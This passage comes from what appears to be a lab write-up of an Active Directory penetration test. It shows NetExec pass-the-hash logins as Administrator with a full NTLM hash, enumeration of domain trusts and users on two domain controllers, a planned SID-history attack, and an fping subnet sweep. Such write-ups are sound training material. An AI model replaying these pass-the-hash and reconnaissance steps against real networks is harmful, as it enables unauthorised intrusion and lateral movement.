

Same here we know from before that the `ADMIN.OFFSHORE.COM` is on the subnet `172.16.3.0/24`.



We can also see the trust:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/pywerview]
└─# NetExec ldap 172.16.2.6 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -M enum_trusts
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.2.6      389    DC02             [+] dev.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
ENUM_TRUSTS 172.16.2.6      389    DC02             [+] Found the following trust relationships:
ENUM_TRUSTS 172.16.2.6      389    DC02             ADMIN.OFFSHORE.COM -> Bidirectional -> Within Forest
ENUM_TRUSTS 172.16.2.6      389    DC02             corp.local -> Bidirectional -> Quarantined Domain
```

Again here this mean that we might be able to use our credentials from DEV to ADMIN and viceversa like before, but this time I see the "Withing forest" which might indicate the possibility to run the SID history attack?

I will check all the users via Netexec:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/pywerview]
└─# NetExec ldap 172.16.3.5 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -d "dev.admin.offshore.com" --users
SMB         172.16.3.5      445    DC03             [*] Windows Server 2016 Standard 14393 x64 (name:DC03) (domain:ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.3.5      389    DC03             [+] dev.admin.offshore.com\Administrator:c61f43b6a4db2676714713836b7d2ea6 (Pwn3d!)
LDAP        172.16.3.5      389    DC03             [*] Total records returned: 5
LDAP        172.16.3.5      389    DC03             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        172.16.3.5      389    DC03             Administrator                 2020-06-04 20:30:37 1       Built-in account for administering the computer/domain      
LDAP        172.16.3.5      389    DC03             Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        172.16.3.5      389    DC03             DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        172.16.3.5      389    DC03             krbtgt                        2018-04-18 00:47:16 0       Key Distribution Center Service Account                     
LDAP        172.16.3.5      389    DC03             bankvault                     2018-06-26 03:42:24 0
```

I will start by checking all the alive hosts via FPING:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/pywerview]
└─# fping -asgq 172.16.3.0/24
172.16.3.5
172.16.3.103

     254 targets
       2 alive
     252 unreachable
       0 unknown addresses

    1008 timeouts (waiting for response)
    1010 ICMP Echos sent
       2 ICMP Echo Replies received
       0 other ICMP received

 33.9 ms (min round trip time)
 44.6 ms (avg round trip time)
 55.4 ms (max round trip time)
        9.519 sec (elapsed real time)
```

Only two now we should move on to the singular devices.

&nbsp;